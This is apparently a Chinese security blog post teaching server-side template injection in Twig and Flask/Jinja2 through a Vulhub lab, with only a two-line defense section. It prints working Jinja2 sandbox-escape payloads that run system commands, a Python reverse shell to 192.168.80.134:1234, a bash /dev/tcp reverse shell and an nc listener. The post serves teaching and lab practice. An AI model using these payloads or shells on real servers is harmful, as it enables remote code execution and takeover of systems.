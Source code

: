```yaml
---
layout: post
title:  "SSTI(模板注入)的攻防战"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 前言

SSTI 全称Server Side Template Injection，服务器模板注入，先上一张图,各位可先看图根据后文加深印象

![图片1.png](https://i.loli.net/2020/02/18/3KxRsYFz4nM81Pi.png)

## SSTI的简单讲解

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了黑客的攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，攻击者依然有许多手段绕过它。

和常见Web注入的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性，所以说 用户的输入永远都是不可信的。

通过模板，Web应用可以把输入转换成特定的HTML文件或者email格式。就拿一个销售软件来说，我们假设它会发送大量的邮件给客户，并在每封邮件前SKE插入问候语，它会通过Twig（一个模板引擎）做如下处理：

```bash
$output = $twig->render( $_GET['custom_email'] , array("first_name" => $user.first_name) );
```

有经验的小伙伴可能会立刻想到xss，但是问题不止如此，此时我们可以尝试使用ssti：假设我们发送如下请求，

```bash
    custom_email={{7*7}} // GET 参数
    49  // $output 结果
```

    还有更神奇的结果：

```bash
    custom_email={{self}} // GET 参数
    Object of class
    __TwigTemplate_7ae62e582f8a35e5ea6cc639800ecf15b96c0d6f78db3538221c1145580ca4a5
    could not be converted to string // 错误
```

我们不难猜到服务器执行了我们传过去的数据。每当服务器用模板引擎解析用户的输入时，这类问题都有可能发生。除了常规的输入外，攻击者还可以通过 LFI触发它。模板注入和 SQL 注入的产生原因有几分相似——都是将未过滤的数据传给引擎解析。

## 实战

Vulnhub的Flask/Jinja2中的服务端模版注入

首先我们看看他的代码：

```php
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
name = request.args.get('name', 'guest')
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run()
```

可以看到Template("Hello " +name)，Template()则是用户可控的，我们就可以这么来：

![图片2.png](https://i.loli.net/2020/02/18/HVuZ9v5RSAQjGWs.png)

![图片3.png](https://i.loli.net/2020/02/18/X7ohF6zIaYAxrq2.png)

随手尝试一波xss，这边是没有经过任何处理的 所以有xss很正常

此时写入模板语句:

![图片4.png](https://i.loli.net/2020/02/18/GK3xRF7ifA1Y85U.png)

可以看到也是能成功执行的，那么我们需要怎么利用呢？

我们知道 在python当中 执行系统命令需要import os模块；

然而 想要在模板中直接调用内置模块 os，即需要在模板环境中对其注册

需要在上层的代码里加一句:

```php
t.globals['os'] = os
```

如果没有加这一句，直接使用os中的方法会报错。
那么，如何在未注册 os 模块的情况下在模板中调用 popen() 函数执行系统命令呢？这就要用各种下划线函数了。

且因为python2与python3存在差异 所以这里找到了个通用的payload

```php
for c in ().__class__.__bases__[0].__subclasses__():
    if c.__name__=='_IterationGuard':         c.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

用jinja的语法即为（执行命令使用os.popen('whoami').read()才有执行结果的回显）

```text
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__=='_IterationGuard' %}
    {{
       c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")
    }}
{% endif %}
{% endfor %}
```

看到别的大神也有使用func_global模块的linecache 我这里也把代码贴出来 其实都是差不多的：

```text
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```

![图片5.png](https://i.loli.net/2020/02/18/HyIEcUkF7VaWhb1.png)

可以看到成功执行了whoami命令 后续的话想反弹shell可以直接用python反弹或者bash...

```python
python -c
'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.80.134",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
'
```

```bash
Bash:
受害机命令
bash -i >& /dev/tcp/x.x.x.x/1234 0>&1

本机命令
nc -lvvvp 1234
```

## 防御

* 尽可能加载静态模板文件
* 不要允许用户控制此类文件或其内容的路径
